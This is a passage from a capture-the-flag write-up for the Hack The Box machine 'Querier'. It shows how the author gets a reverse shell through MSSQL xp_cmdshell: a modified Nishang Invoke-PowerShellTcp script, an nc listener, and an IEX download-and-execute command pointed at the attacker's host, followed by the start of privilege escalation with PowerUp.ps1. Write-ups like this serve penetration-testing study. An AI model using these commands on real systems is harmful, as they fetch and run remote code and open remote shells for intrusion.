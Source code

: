 As you can see in the screenshot, the test worked, and we have access to use PowerShell as part of our RCE.

Next step is to copy the Nishang script to our local directory, and modify it to kick off the shell once invoked. I also renamed the file to `revshell.ps1`, to make it easier to type out.

Add `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.4 -Port 4444` to the end of the PS1 file. When you do this, PowerShell will run that module instantly, instead of simply loading it to memory first, and waiting for a function to be invoked by the user.

Next, open a listener with `nc -lvnp 4444` to capture the shell when it returns. You'll also need to kick off a Python web server to serve the file with `python -m SimpleHTTPServer 80`.

Now, in the SQL console, we can use `xp_cmdshell powershell IEX(New-Object Net.WebClient).downloadstring(\"http://10.10.14.4/revshell.ps1\")` to tell powershell to grab the file, run it form memory, return our shell.

<a href="/assets/htb-querier/initial_shell_mssql.png"><img src="/assets/htb-querier/initial_shell_mssql.png" width="95%"></a>

Now that we have a user account, we can find `user.txt` at `C:\users\mssql-svc\desktop\user.txt`.

![](/assets/htb-querier/user_proof.png)

---

## Privlege Escalation

### Running `PowerUp.ps1` to enumerate

Since we're running a PowerShell console, we can use the `PowerUp.ps1` script from the PowerSploit suite to enumerate for weaknesses and easy wins.
